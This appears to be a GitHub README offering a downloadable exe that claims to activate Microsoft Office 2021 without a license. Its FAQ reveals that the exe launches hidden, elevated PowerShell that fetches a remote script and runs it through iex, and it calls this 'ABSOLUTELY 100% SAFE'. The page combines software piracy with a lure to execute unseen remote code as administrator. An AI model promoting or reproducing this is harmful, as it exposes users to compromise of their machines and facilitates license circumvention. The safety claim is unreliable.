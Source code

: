 # Microsoft-Office-LTSC-Professional-Plus-2021-

## EASIER WAY OF ACTIVATING LICENSE IN MS OFFICE

### 1. download the exe file and run it.
### 2. if the prompt popup pres 2.
### 3. a second popup will open and pres 1.

## THAT'S HOW EASY IT IS TO GET THE ACTIVATION KEY FOR LIFE.

FAQ's

### 1. what's inside the exe file?

here it is: 

Start-Process powershell -Verb RunAs -ArgumentList "-WindowStyle Hidden -NoProfile -Command irm https://get.activated.win | iex"

### 2. is it safe to run the exe file?

- ABSOLUTELY 100% SAFE
